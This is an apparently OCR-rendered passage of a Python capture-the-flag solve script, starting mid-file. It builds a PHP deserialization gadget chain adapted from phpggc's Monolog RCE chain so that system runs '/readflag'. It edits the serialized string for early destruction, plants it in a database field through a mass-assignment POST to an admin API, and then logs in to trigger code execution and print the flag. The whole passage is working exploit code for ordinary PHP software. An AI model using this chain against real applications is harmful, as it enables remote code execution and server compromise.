 ```python
# chain.php
cfh = NamedTemporaryFile(delete=False, suffix='.php')
chain_pre = f"<?php\n\nrequire '{gfh.name}';".encode()
chain_body = chain_pre + b"""

# autoload gadget
class www_frontend_vendor_autoload {}

# adapted RCE gadget (phpggc) https://github.com/ambionics/phpggc/blob/3dd04666dc01c01d41d68f5419576ca6054ced9c/gadgetchains/Monolog/RCE/6/gadgets.php
# trigger the 'readflag' binary
$obj = array(
    7 => new www_frontend_vendor_autoload(),
    8 => new Monolog\Handler\FingersCrossedHandler("/readflag", new Monolog\Handler\BufferHandler('system')),
);
$serialized_obj = serialize($obj);
echo json_encode($serialized_obj);
"""

# write chain temp file
cfh.write(chain_body)

# close file handles
gfh.close()
cfh.close()

# generate payload
serialized_payload = subprocess.check_output(["php", cfh.name]).decode()

print(f"[*] Editting payload for fast destruct... ")

# fix encoding quirk
serialized_payload = serialized_payload.replace("\/readflag", "/readflag")

# add extra invalid array entry for fast destruct
serialized_payload = "a:3" + serialized_payload[4:-2] + "i:7;i:7};"

print(f"[+] Generated serialized payload: {serialized_payload}")

# delete tempfiles
os.unlink(gfh.name)
os.unlink(cfh.name)



# had to manually craft to get around encoding issues
assign = '{"_id": 1, "username": "admin", "password": "admin", "access":"' + serialized_payload + '"}'

print(f"[*] Using mass assignment to set serialized payload into DB... ")
r = sess.post(f"http://{url}:{port}/admin/api/users/update", data=assign, headers={"Content-Type": "application/json"})


print(f"[*] Triggering payload... ")
# login again to trigger
sess2 = requests.Session()
sess2.post(f"http://{url}:{port}/admin/api/auth/login", data=creds)
r = sess2.get(f"http://{url}:{port}/admin/dashboard")

print("[+] Flag obtained :D : " + r.text.split('\n')[0])
```